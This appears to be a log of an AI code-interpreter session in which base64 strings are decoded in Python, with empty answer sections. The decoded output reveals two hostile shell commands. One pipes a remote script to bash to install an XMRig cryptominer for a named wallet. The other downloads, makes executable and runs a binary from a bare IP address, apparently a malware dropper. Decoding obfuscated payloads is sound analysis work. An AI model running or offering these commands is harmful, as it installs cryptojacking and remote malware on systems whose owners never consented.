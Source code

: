 | Output | Value |
| --- | --- |


<details><summary>
<h3>Answer</h3>
</summary></details>

---


## Prompt: From_Base64('A-Za-z0-9+/=')

**Run ID:** `run_S44UH0Hki4BTEObrqP1GDUaD`

### Funciton Calls
**Step ID:** `step_RNgOIADas4HuGSUB4GeIhayQ`

**AI Used: Code Interpreter**

#### Input Code:

````python
import base64

# Base64 encoded strings
encoded_strings = [
    "Y3VybCAtcyAtTCBodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vQzNQb29sL3htcmlnX3NldHVwL21hc3Rlci9zZXR1cF9jM3Bvb2xfbWluZXIuc2ggfCBiYXNoIC1zIDQ4Nnhxdzd5c1hkS3c3UmtWelQ1dGRTaUR0RTZzb3hVZFlhR2FHRTFHb2FDZHZCRjdyVmc1b01YTDlwRngzckIxV1VDWnJKdmQ2QUhNRldpcGVZdDVlRk5VeDlwbUdO",
    "cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy"
]

# Decoding the base64 strings
decoded_strings = [base64.b64decode(encoded).decode('utf-8') for encoded in encoded_strings]
decoded_strings
````

#### Outputs:

````python
['curl -s -L https://raw.githubusercontent.com/C3Pool/xmrig_setup/master/setup_c3pool_miner.sh | bash -s 486xqw7ysXdKw7RkVzT5tdSiDtE6soxUdYaGaGE1GoaCdvBF7rVg5oMXL9pFx3rB1WUCZrJvd6AHMFWipeYt5eFNUx9pmGN',
 'rm -rf /tmp/paraiso.x86 ; wget -O /tmp/paraiso.x86 http://141.147.74.15/system32/paraiso.x86 ; curl -o /tmp/paraiso.x86 http://141.147.74.15/system32/paraiso.x86 ; chmod +x /tmp/paraiso.x86 ; chmod 777 /tmp/paraiso.x86 ; /tmp/paraiso.x86 System32']
````


<details><summary>
<h3>Answer</h3>
</summary></details>

---
